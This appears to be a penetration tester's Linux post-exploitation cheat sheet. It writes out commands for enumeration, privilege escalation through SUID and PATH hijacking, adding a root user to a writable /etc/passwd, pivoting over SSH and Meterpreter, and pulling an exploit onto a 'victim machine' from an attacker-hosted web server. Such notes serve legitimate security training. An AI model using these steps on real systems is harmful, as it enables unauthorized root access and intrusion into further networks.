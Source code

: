 # Linux Post Exploitation


<details>
    <summary></summary>
    <br>
</details>



<details>
    <summary>Useful tips</summary>
    <br>
    
**Upgrading basic shell to terminal**

    python -c 'import pty;pty.spawn("/bin/bash")';
    
</details>


    

<details>
    <summary>Enumeration</summary>
    <br>
    
## Manual Enumeration


 **system**

    uname -a
       
    ps -aux 
    
    id
    
      Find out if the user is part of groups with interesting files
      
      find / -type f -group <group> 2>/dev/null
      
  - Find all writable direcotries for copying over scripts
  
        find / -writable
        
  - Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start
     
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l
  
  
  **Network**

  ss -tuapn


</details>

<details>
    <summary>Maintain persistence</summary>
    <br>

## Metasploit modules    

  - Add user


  - Set a scheduled task
  
</details>

<details>
    <summary>Privilege escalation</summary>
    <br>
    
 Horizontal or vertical privilege escalation?
 
## Resources:
 
 
- [Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)
 
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
 
- [OSCP guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)

## Enumeration

-------------------------------------------------------

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
- [linpeas output explained](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

--------------------------------------------------------

- [LinEnum](https://github.com/rebootuser/LinEnum)  
  
        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh        

 
 ## Metasploit 
  
    post/linux/
 
    post/multi/recon/local_exploit_suggester

## Exploits

 - searchsploit linux kernel version
   
 - searchsploit linux version
    
 - [linprivchecker](https://github.com/reider-roque/linpostexp)
  
       wget https://raw.githubusercontent.com/reider-roque/linpostexp/master/linprivchecker.py
     
       python linprivchecker.py extended
     
- [Linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

      wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
      
      ./linux-exploit-suggester.sh
    
 <details>
    <summary>Diry Cow</summary>
    <br>
</details>


- **Kernel Kernel information**

- **Can we read/write sensitive files:** The world-writable files are shown below. These are the files that any authenticated user can read and write to. By looking at the permissions of these sensitive files, we can see where there is misconfiguration that allows users who shouldn't usually be able to, to be able to write to sensitive files.

#

## Manual privilege escalation methods

<details>
    <summary>SUID</summary>
    <br>
    
 (https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) Files: SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions. It can allow us to escalate privileges.
     
   [Check GTFOBin first](https://gtfobins.github.io/)
    
   [Past SUID shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
          
   Sometimes custom scripts will use relative pathing for commands rather than absolute. One way to abuse this would be to add . to your PATH and have a shell script in your working directory with the name of that command in the script. 
     
          echo /bin/sh > <command>    # To run <command> which then points to shell
          
          chmon 777 <command>
          
          export PATH=/<new dir>:$PATH
   
        #Manual  find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"
        
         find / -perm -u=s -type f 2>/dev/null
</details>
         
#

<details>
    <summary>Crontab</summary>
    <br>
    
The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. These scheduled commands or tasks are known as “cron jobs”. Related to this is the crontab command which creates a crontab file containing commands and instructions for the cron daemon to execute. There is certainly enough information to warrant attempting to exploit Cronjobs here.    
 
    cat /etc/crontab
 
 
</details>   

#


<details>
    <summary>Writable passwd file</summary>
    <br>

If we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!
    
 To create a new root user:
 
     Create password compliant hash
     
       openssl passwd -1 -salt [salt] [password]
       
     Add a new line in the passwd file
     
       <user>:<password hash>:root:/root:/bin/bash
</details>
    

#

</details>
   
 
<details>
    <summary>Pivoting</summary>
    <br> 

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
       
   - SSH routing can get past a target devices local firewall. 
   
    ssh -L <localport>:localhost:<target port> <target SSH user>@<ip>
       
        this will have the target machine locally make the requests and feed them to us. For a website for example if I were to visit <target ip>:<target port>   I would get the website that was originally blocked to me. Observing the network connections while this is taking place shows that all connection on the target PORT on the server are all 127.0.0.1. 
       
</details>



<details>
    <summary>Methods to upload files to/from target</summary>
    <br>
    
  ## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
</details>



